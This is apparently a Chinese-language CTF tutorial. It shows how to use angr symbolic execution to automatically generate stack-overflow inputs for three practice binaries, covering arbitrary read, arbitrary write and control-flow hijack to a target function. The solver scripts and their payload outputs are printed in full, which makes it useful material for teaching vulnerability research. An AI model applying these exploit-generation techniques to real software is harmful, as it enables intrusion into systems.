



这是angr_ctf系列的最后一节，在这一节我们通过三个栈溢出的例子来学习angr在漏洞挖掘方向的简单应用。

## 15_angr_arbitrary_read

这是一个非常入门级的栈溢出题，程序逻辑如下：



手动分析的思路非常简单，scanf处有一个任意读漏洞，可以通过scanf将s的地址覆盖为0x484F6038，使`puts(s)`能够打印"Good Jobs"：


直接梭哈的话不太行，angr没有分析出这个栈溢出漏洞，原因可能是angr无法分析出"Good Job"来自哪个地址：

```python
import angr

proj = angr.Project('../dist/15_angr_arbitrary_read')
state = proj.factory.entry_state()
simgr = proj.factory.simgr(state)
simgr.explore(
    find=lambda state : b'Good Job.' in state.posix.dumps(1),
    avoid=lambda state: b'Try again.' in state.posix.dumps(1)
)
print(simgr.found[0].posix.dumps(0))	# 不行
```

该题是通过puts输出的，所以我们可以将判断输出中是否包含"Good Job."的条件改为，puts的参数是否为"Good Job."的地址，即0x484F6038。检测puts参数的代码如下，很好理解：

```python
def check_puts(state):
    puts_parameter = state.memory.load(state.regs.esp + 4, 4, endness=proj.arch.memory_endness)
    if state.solver.symbolic(puts_parameter):
        good_job_string_address = 0x484F6038
        is_vulnerable_expression = puts_parameter == good_job_string_address
        copied_state = state.copy()
        copied_state.add_constraints(is_vulnerable_expression)
        if copied_state.satisfiable():
            state.add_constraints(is_vulnerable_expression)
            return True
    return False
```

explore的条件is_successful：

```python
def is_successful(state):
    puts_address = 0x08048370
    if state.addr == puts_address:
        return check_puts(state)
    return False
```

程序的流程并不是很复杂，所以本题的关键还是在于给explore函数找到一个合适的判定条件。在自动化Pwn中，这个条件往往要改为执行到`system("/bin/sh")`。

完整代码：

```python
import angr

def check_puts(state):
    puts_parameter = state.memory.load(state.regs.esp + 4, 4, endness=proj.arch.memory_endness)
    if state.solver.symbolic(puts_parameter):
        good_job_string_address = 0x484F6038
        is_vulnerable_expression = puts_parameter == good_job_string_address
        copied_state = state.copy()
        copied_state.add_constraints(is_vulnerable_expression)
        if copied_state.satisfiable():
            state.add_constraints(is_vulnerable_expression)
            return True
    return False

def is_successful(state):
    puts_address = 0x08048370
    if state.addr == puts_address:
        return check_puts(state)
    return False

proj = angr.Project('../dist/15_angr_arbitrary_read')
state = proj.factory.entry_state()
simgr = proj.factory.simgr(state)
simgr.explore(find=is_successful)
print(simgr.found[0].posix.dumps(0))
```

输出：

```python
b'0041810812 \xd9\xd9\xd1\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd98`OH'
```

有一个要注意的地方是这里：

```python
puts_parameter = state.memory.load(state.regs.esp + 4, 4, endness=proj.arch.memory_endness)
```

的`endness=proj.arch.memory_endness`是指定读取的方式为小端。

## 16_angr_arbitrary_write

这题的思路稍微比上题复杂一点，在这题中我们可以通过scanf将dest覆盖成任意地址，然后通过第二个strncpy向dest中保存的地址写入任何数据，因此我们可以向任何地址写入任何数据，这是一个任意写漏洞。首先我们将dest覆盖成password_buffer的地址，然后再通过第二个strncpy往dest中写入"PASSWORD"，最后输出"Good Job."：




直接梭哈还是不行，原因可能是angr没有判断出password_buffer可以被覆盖为符号值。

还是按照上题的思路，这回我们要check的是strncpy函数，约束条件为dest指向的地址为password_buffer，并且src为"NDYNWEUJ"，代码如下：

```python
def check_strncpy(state):
    dest = state.memory.load(state.regs.esp + 4, 4, endness=proj.arch.memory_endness)
    src = state.memory.load(state.regs.esp + 8, 4, endness=proj.arch.memory_endness)
    src_content = state.memory.load(src, 8)
    if state.solver.symbolic(src_content) and state.solver.symbolic(dest):
        is_vulnerable_expression = claripy.And(src_content == b'NDYNWEUJ', dest == 0x57584344)
        copied_state = state.copy()
        copied_state.add_constraints(is_vulnerable_expression)
        if copied_state.satisfiable():
            state.add_constraints(is_vulnerable_expression)
            return True
    return False
```

完整代码：

```python
import angr
import claripy

def check_strncpy(state):
    dest = state.memory.load(state.regs.esp + 4, 4, endness=proj.arch.memory_endness)
    src = state.memory.load(state.regs.esp + 8, 4, endness=proj.arch.memory_endness)
    src_content = state.memory.load(src, 8)
    if state.solver.symbolic(src_content) and state.solver.symbolic(dest):
        is_vulnerable_expression = claripy.And(src_content == b'NDYNWEUJ', dest == 0x57584344)
        copied_state = state.copy()
        copied_state.add_constraints(is_vulnerable_expression)
        if copied_state.satisfiable():
            state.add_constraints(is_vulnerable_expression)
            return True
    return False

def is_successful(state):
    strncpy_address = 0x08048410
    if state.addr == strncpy_address:
        return check_strncpy(state)
    return False

proj = angr.Project('../dist/16_angr_arbitrary_write')
state = proj.factory.entry_state()
simgr = proj.factory.simgr(state)
simgr.explore(find=is_successful)
print(simgr.found[0].posix.dumps(0))
```

输出：

```python
b'0011604995 NDYNWEUJ\xd9\xd9\xd9\xd9\xd9\xd1\xd9\xd9DCXW'
```

## 17_angr_arbitrary_jump

非常经典的ROP，可以覆盖返回值实现任意跳转：



当一个指令有很多分支的可能性时，称之为不受约束（unconstrained）的状态， 比如说当用户的输入决定下一条指令的位置。angr 在遇到不受约束的状态时会将其抛出，本题将要关闭这个默认行为，转而利用此状态去求解能够跳转到print_good函数的payload。

求解步骤：

- 初始化proj，让 angr 记录不受约束的状态
- 开始step直到发现 eip 为符号的状态
- 约束 eip 与 print_good 函数地址相同
- 约束求解

完整exp：

```python
import angr
import claripy

proj = angr.Project('../dist/17_angr_arbitrary_jump')
payload = claripy.BVS('payload', 64 * 8)
state = proj.factory.entry_state(stdin=payload)
simgr = proj.factory.simgr(
    state, 
    save_unconstrained=True, 
    stashes={
        'active':[state],
        'unconstrained': [],
        'found': [],
    })
while (len(simgr.active) or len(simgr.unconstrained)) and not len(simgr.found):
    for unconstrained in simgr.unconstrained:
        eip = unconstrained.regs.eip
        print_good_addr = 0x42585249
        if unconstrained.satisfiable(extra_constraints=[eip == print_good_addr]):
            unconstrained.add_constraints(eip == print_good_addr)
            simgr.move('unconstrained', 'found')
            break
    simgr.drop(stash="unconstrained")
    simgr.step()

print(simgr.found[0].posix.dumps(0))
```

输出：

```python
b'\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xda\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdbIRXB\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\xdb\x00\x00\x00\x00\x00'
```

打印unconstrained状态，可以发现其地址是由输入决定的：

```python
>>> unconstrained
<SimState @ <BV32 payload_0_512[199:192] .. payload_0_512[207:200] .. payload_0_512[215:208] .. payload_0_512[223:216]>>
```

所以我们对eip进行约束求解，就能找到会导致栈溢出的payload。